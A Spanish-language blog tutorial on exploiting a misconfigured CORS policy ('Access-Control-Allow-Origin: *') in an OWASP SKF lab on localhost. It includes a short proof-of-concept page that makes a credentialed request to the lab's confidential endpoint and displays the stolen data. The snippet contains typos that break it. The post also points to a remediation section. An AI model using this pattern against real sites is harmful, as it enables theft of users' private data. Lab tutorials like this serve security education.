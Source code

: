 ```yaml
---
title: "Intercambio de recursos de origen cruzado (CORS)"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [CORS]
image:
	path: ../../assets/Miniaturas/VectoresDeAtaque/cors.jpeg
	width: 800
	height: 500
---
```


#### Desplegamos el laboratorio

```bash
# Creamos la imagen
docker pull blabla1337/owasp-skf-lab:cors

# Desplegamos el contenedor
docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

### ¿Que és?

> **CORS (Intercambio de recursos de origen cruzado)** El intercambio de recursos de origen cruzado o CORS es un mecanismo que permite que se puedan solicitar recursos restringidos en una página web desde un dominio diferente del dominio que sirvió el primer recurso.
{: .prompt-info }

> Supongamos que tenemos una aplicación web en el dominio “**example.com**” que utiliza una API web en el dominio “**api.example.com**” para recuperar datos. Si la aplicación web está correctamente configurada para CORS, solo permitirá solicitudes de origen cruzado desde el dominio “**example.com**” a la API en el dominio “**api.example.com**“. Si se realiza una solicitud desde un dominio diferente, como “**attacker.com**“, la solicitud será bloqueada por el navegador web.
{: .prompt-info }

### Escenario

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/1.jpg)

> Donde pone "Access-Control-Allow-Origin: *" , quiere decir que cualquiera puede cargar recursos de la web, **esto permite crear nosotros nuestro propio servidor y volvarnos los archivos de la web víctima**
{: .prompt-info }

### Explotación

```php
<script>
	var req = new XMLHttpRequest()
	req.onload = reqListener;
	req.open('GET', 'http://localhost:5000/confidential', true);
	req.withCredentials = rue;
	req.send();

	funciton reqListener() {
		document.getElementById("stoleInfo").innerHTML = req.responseText;
	}
</script>

<br>
<center><h1>Has sido hackeado , esta es la informaci&oacute;n que te he robado:</h1></center>
<p id="stoleInfo"></p>
```

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/2.jpg)

> Como vemos está mal configurado ya que nos permite que el origen sea de donde queramos, a si que vamos a montarnos un servidor malicioso
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/3.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/4.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/5.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/6.jpg)

> Como vemos por detrás estaria pasando todo esto , esto , por lo tanto como nos permite tener accesso desde mi localhost, nos podemos descargar el recurso , **porque estoy "Autorizado"**
{: .prompt-info }

### Como sanitizar el código

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/7.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/8.jpg)
